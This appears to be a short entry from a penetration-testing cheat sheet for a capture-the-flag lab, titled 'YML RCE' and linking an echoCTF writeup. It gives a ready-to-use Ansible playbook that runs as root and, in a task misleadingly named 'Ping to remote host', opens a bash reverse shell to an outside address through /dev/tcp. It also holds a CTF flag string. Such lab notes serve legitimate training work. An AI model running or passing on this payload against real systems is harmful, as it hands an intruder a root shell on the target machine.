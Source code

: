 #### YML RCE
Example to obtain a reverse shell using test.yml file:
```yml
---
- name: Display known facts for host
  hosts: 127.0.0.1
  sudo: true
  sudo_user: root
  connection: local
  gather_facts: false
  tasks:
  - name: Ping to remote host
    shell:
        "bash -c 'bash -i >& /dev/tcp/10.10.1.250/1234 0>&1'"
  - name: Display all variables/facts known for a host (ETSCTF_eaef34dcbadbe832d98163f825a98a51)
    debug:
      var: hostvars[inventory_hostname]
      verbosity: 4
```
Consider identation.
Examples:
[ECHO CTF martin](https://echoctf.red/target/8/writeup/read/60)